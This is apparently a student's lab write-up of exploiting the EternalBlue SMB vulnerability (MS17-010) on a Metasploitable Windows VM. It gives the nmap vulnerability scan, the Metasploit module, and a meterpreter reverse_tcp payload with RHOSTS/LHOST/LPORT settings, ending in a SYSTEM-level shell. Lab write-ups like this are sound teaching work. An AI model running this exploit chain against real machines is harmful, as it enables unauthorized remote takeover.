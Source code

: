Eternal Blue

Objective:

- I initiated the assignment by executing the **ifconfig** command on my Kali VM, identifying the machine's IP address as 10.0.2.6.


- I then proceeded with an nmap scan targeting the IP address to locate the metasploitable Windows machine. The results showed the machine's IP address as 10.0.2.8, and the open ports 139 and 445 indicated the running SMB service.


- To leverage nse scripts, I ran **nmap -Pn -p139,445 --script=smbvuln-* 10.0.2.8**. The output highlighted the vulnerability **smb-vuln-ms17-010**, susceptible to remote code execution and classified as a high-risk factor.


- To proceed, I launched the Metasploit framework using the **msfconsole** command.


- Within Metasploit, I searched for the **eternalblue** exploit using **search eternalblue**.


- I selected the **MS17-010 EternalBlue SMB Remote Windows** module with **use exploit/windows/smb/ms17_010_eternalblue**. By default, the PAYLOAD was set to **windows/x64/meterpreter/reverse_tcp**. Necessary adjustments were made to RHOSTS (10.0.2.8, Target IP), LHOST (10.0.2.6, Kali IP), and LPORT (4444, designated listening port).


- Initiating the attack, I executed the **exploit** command.


- To confirm successful entry into the metasploitable VM, I ran **sysinfo**. Verification of the user-level access was achieved with the **getuid** command, revealing the access level as **SYSTEM** - the highest privilege on the machine.


- Lastly, to imprint my identity on the remote machine's terminal, I invoked the **shell** command.
